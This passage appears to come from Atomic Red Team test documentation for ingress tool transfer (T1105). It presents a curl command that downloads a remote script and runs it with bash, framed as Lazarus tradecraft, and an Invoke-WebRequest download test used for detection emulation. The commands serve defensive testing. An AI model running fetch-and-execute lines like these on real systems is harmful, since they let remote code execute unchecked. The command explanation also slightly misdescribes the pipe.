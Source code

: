 **Command Explanation:**
```sh
curl -sO https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/src/atomic.sh; chmod +x atomic.sh | bash atomic.sh
```
- **curl -sO**: Silent mode that saves file with original name
- **chmod +x**: Makes the downloaded file executable
- **| bash**: Pipes the script to bash for immediate execution
- **Semicolon (;)**: Command separator to chain operations

This demonstrates Lazarus's cross-platform capabilities, targeting Linux systems with immediate execution of downloaded scripts.

#### Dependencies: Run with `sh`!
##### Description: curl must be available
##### Check Prereq Commands:
```sh
if command -v curl >/dev/null 2>&1; then exit 0; else exit 1; fi
```

<br/>

## Atomic Test #29 - iwr or Invoke Web-Request download
Uses Invoke-WebRequest (iwr) as an alternative download method. APT29 uses this technique.

**Supported Platforms:** Windows

**auto_generated_guid:** 4a5b6c7d-8e9f-0a1b-2c3d-4e5f6a7b8c9d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | path | $env:TEMP\Atomic-license.txt |

#### Attack Commands: Run with `powershell`! 
```powershell
Invoke-WebRequest -URI #{url} -OutFile #{output_file}
```

```mermaid
flowchart TD
    Start[Test #29: Invoke-WebRequest Download] --> Execute["Execute: powershell.exe iwr -URI https://raw.githubusercontent.com/.../LICENSE.txt<br>-Outfile %temp%\Atomic-license.txt"]
    
    Execute --> Breakdown[Command Breakdown]
    
    subgraph Breakdown [iwr parameters]
        I1[iwr] --> P1[-URI: Source URL parameter]
        I1 --> P2[-Outfile: Output file parameter]
    end
    
    Breakdown --> Download[Downloads file]
    Download --> Save[Saves to temp directory]
    Save --> Success[Transfer Complete]
```
